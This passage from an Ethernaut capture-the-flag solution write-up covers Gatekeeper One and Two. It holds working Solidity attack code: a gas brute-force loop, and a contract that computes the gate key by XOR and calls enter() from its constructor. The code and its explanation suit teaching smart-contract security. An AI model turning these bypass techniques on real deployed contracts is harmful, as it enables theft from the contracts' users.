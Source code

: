 ```
         for (uint256 i = 0; i < 120; i++) {
         (bool result, bytes memory data) = address(gkpOne).call{gas:
          i + 150 + 8191*3}(abi.encodeWithSignature("enter(bytes8)", key)); // thanks to Spalladino https://github.com/OpenZeppelin/ethernaut/blob/solidity-05/contracts/attacks/GatekeeperOneAttack.sol
      if(result)
        {
        break;
      }
    }
  }
        
    
}
```



# 14. [Challenge 14: Gatekeeper Two](https://ethernaut.openzeppelin.com/level/0xdCeA38B2ce1768E1F409B6C65344E81F16bEc38d)

Tasks:
- This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

Helpful Resources:
- [Gatekeeper Two Solution](https://cyanwingsbird.blog/solidity/ethernaut/14-gatekeeper-two/)

**Solution:** \
Attack Payload:
```
pragma solidity ^0.8.0;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwo {
    address levelInstance;
    
    constructor(address _levelInstance) {
      levelInstance = _levelInstance;
      unchecked{
          bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ uint64(0) - 1  );
          IGatekeeperTwo(levelInstance).enter(key);
      }
    }
}
```

`^` is `Bitwise XOR` , so `a^b=c`, then `a^c=b`. Also, since `Solidity 0.8` , operations come with built-in underflow and overflow checks. Therefore, it is necessary to include the operation part with `unchecked {}`, otherwise the above operation will cause the transaction to fail. 
